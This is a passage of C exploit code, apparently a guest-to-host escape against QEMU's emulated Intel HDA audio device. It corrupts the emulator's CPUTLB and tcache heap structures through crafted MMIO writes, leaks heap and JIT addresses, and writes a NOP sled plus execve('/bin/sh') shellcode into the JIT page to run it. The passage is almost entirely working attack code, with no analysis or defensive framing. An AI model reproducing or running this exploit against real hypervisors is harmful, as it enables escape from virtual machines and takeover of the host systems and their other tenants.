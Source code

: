 ```c
    huge = mmap((void *)HUGE_VA, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON|MAP_HUGETLB, -1, 0);
    printf("[*] huge: %p\n", huge);

    // invlpg and loop to resize CPUTLB to 0x810 chunk
    *(uint8_t *)huge = 0;
    kfunc(resize_CPUTLB);

    // 2.2 hijack CPUTLB
    *(uint8_t *)huge = 0;
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_LVI), 0x9-2);
    kfunc(hijack_CPUTLB); // individual BB
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_STREAM_RESET);

    // 2.3 overwrite CPUTLBEntry
    set64(7, 0x108, 0x35);
    parse_bdlp(7, 0x11-2); // make only 6 chunks in 0x110 tcache bins
    set64(0, 0xf8, 0x115);
    parse_bdlp(0, 0x10-2);

    volatile void *hit = mmio_init((void *)0x7e00000, 0, 0x1000);
    *(uint8_t *)hit = 0;
    parse_bdlp(1, 0x11-2);

    /* Step3: Leak and execute shellcode in JIT page */
    volatile uint64_t *target = 0;
    //for (size_t i = 0; i < 0x10; i++)
    //    printf("[0x%lx] %p\n", i, (void *)target[i]);

    uint64_t theap = target[0] - 0x30;
    uint64_t jit = target[0x17f] - 0x2d;
    printf("[*] theap: %p\n", (void *)theap);
    printf("[*] jit: %p\n", (void *)jit);

    // 0x1a0 tcache entry
    target[0xa20/8] = jit;
    uint8_t *sc = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90j;X\x99H\xbb//bin/shH\xc1\xeb\x08SH\x89\xe7RWH\x89\xe6\xb0;\x0f\x05";
    for (size_t i = 0; i < 0x100/8; i++) {
        set64(7, 8*i, ((uint64_t *)sc)[i]);
    }
    parse_bdlp(7, 0x1a-2);

    return 0;
}
```
